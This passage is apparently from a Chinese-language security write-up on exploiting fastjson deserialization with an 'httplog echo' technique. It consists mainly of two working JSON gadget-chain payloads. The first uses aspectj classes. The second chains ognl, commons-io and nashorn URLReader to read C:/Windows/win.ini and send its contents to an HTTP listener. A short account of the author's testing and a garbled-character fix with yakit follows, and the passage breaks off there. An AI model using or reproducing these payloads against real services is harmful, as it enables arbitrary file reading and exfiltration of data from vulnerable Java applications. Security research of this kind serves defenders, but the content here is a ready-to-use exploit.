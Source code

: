 #### 4.1.1.4 httplog 回显法（另需 ognl>=2.7 以及 commons-io>=2.0）

分两次打。

`payload40`（组合拳）：

```plain
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"test"},"password":"admin"}]
```

```plain
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"ognl.OgnlException","_evaluation":""}},"su16":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"java.util.Locale","language":"http://127.0.0.1:8085/?test","country":{"@type":"java.lang.String"[{"@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"C:/Windows/win.ini"}]}}},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36]}]}}}},"su17":{"$ref":"$.su16.node.p.stream"},"su18":{"$ref":"$.su17.bOM.bytes"}}
```

我这里实际测试过程中，文件中有中文字符的时候出现了乱码：

[![](assets/1706959415-85a943d289adfbae03cda966cb8b1aac.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231020223219033.png)

我的解决方法是，使用`yakit`的端口监听器：
